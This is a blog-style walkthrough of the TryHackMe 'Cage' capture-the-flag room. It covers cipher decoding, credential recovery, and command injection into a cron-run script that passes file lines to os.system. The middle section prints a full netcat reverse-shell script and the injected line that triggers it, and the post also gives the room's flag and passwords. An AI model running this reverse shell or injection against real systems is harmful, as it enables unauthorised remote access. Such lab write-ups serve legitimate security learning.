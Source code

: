 ```yaml
---
layout: post
title:  "THM - Cage"
date:   2020-06-30 18:00:00 +1000
category: hacking
---
```


## Introduction
*Help Cage bring back his acting career and investigate the nefarious goings on of his agent!*
Hmmmm. Sounds cheesy.

## Ports
nmap says we've got 21 (FTP), 22 (SSH) and 80 (HTTP) only.

## FTP
FTP allows anonymous login and there is one file, called dad_tasks. Downloading it and opening it we can see some sort of encoded text:
*UWFwdyBFZWtjbCAtIFB2ciBSTUtQLi4uWFpXIFZXVVIuLi4gVFRJIFhFRi4uLiBMQUEgWlJHUVJPI...* **snip**. You get the idea.  

This is base64, and decodes to: 

>Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!  
>Sfw. Kajnmb xsi owuowge  
>Faz. Tml fkfr qgseik ag oqeibx  
>Eljwx. Xil bqi aiklbywqe 
>Rsfv. Zwel vvm imel sumebt lqwdsfk  
>Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.  
>Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl

Which is some sort of cipher, that looks like a rotation or Vignere. Spoiler alert - it's not a simple rotation. Presumably Sfw is One, Faz is Two, Eljwx is Three, Rsfv is Four and Yejr is Five....

This [website](https://www.boxentriq.com/code-breaking/vigenere-cipher) provides auto-solving of ciphers, and sure enough it's vignere with the key **namelesstwo**:

*dads tasks the rage the cage the man the legend   
one revamp the website  
two put more quotes in script  
three buy bee pesticide  
four help him with acting lessons  
five teach dad what information security is  
in case i forget....  
Mydadisghostrideraintthatcoolnocausehesonfirejokes*

The *last* part is the FTP *and* SSH password for 'weston'

## Other Files
Logging in, we can find a file called *must_practice_corrupt_file.mp3* in */var/www/html/auditions*, which we could also have found through dirbusting. What's more, it contains audio steganography which we can access via Audacity and it gives the password ... **namelesstwo** - which we already had. So, that's not helpful.

We also find a few files in */opt/.dads_files/*
There is a file called *.quotes* and a python script that broadcasts lines from .quotes; this apparently runs on a cron job. We can't edit the python script but we can *cat* it - the contents are:

>weston@national-treasure:/opt/.dads_scripts/.files$ cat ../spread_the_quotes.py 
#!/usr/bin/env python  
#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)  
import os  
import random  
lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()  
quote = random.choice(lines)  
os.system("wall " + quote)  

So essentially it's choosing a random line from the .quotes file and broadcasting it via the 'wall' command. We can edit the .quotes file, so that's the way forward.

We don't have nano, but can remove the .quotes file with rm and then append something to a new .quotes with echo or printf. Theoretically, and with testing, we should be able to use a command like 
>echo "whatever ;pwd" >> .quotes

or 
>echo "whatever &&pwd" >> .quotes

But these don't work, because the command doesn't actually complete when the script runs. What we can do instead is trigger a reverse shell:

>cat << EOF > /tmp/shell  
#!/bin/bash  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.10.123 1234 >/tmp/f  
EOF  
chmod +x /tmp/shell  
printf 'whatever; /tmp/shell\n' > /opt/.dads_scripts/.files/.quotes  

## User Cage
This gets us a shell as cage:
>listening on [any] 1234 ...  
connect to [10.9.10.123] from (UNKNOWN) [10.10.236.100] 52624  
/bin/sh: 0: can't access tty; job control turned off  
$ python3 -c 'import pty;pty.spawn("/bin/bash");'  
cage@national-treasure:~$ cd /home/cage  

And we can get the user flag:  
>cage@national-treasure:~$ cat Super_Duper_Checklist  
cat Super_Duper_Checklist  
1 - Increase acting lesson budget by at least 30%  
2 - Get Weston to stop wearing eye-liner  
3 - Get a new pet octopus  
4 - Try and keep current wife  
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}  

## Root
Cage isn't root, but his email backups give it away; Sean has root privileges. We're also given **haiinspsyanileph** and the word **face** as a hint. This is another vignere cipher with face as the key, and it decodes to: **cageisnotalegend**.

Once we know that, we can *su* as sean and get the root flag.

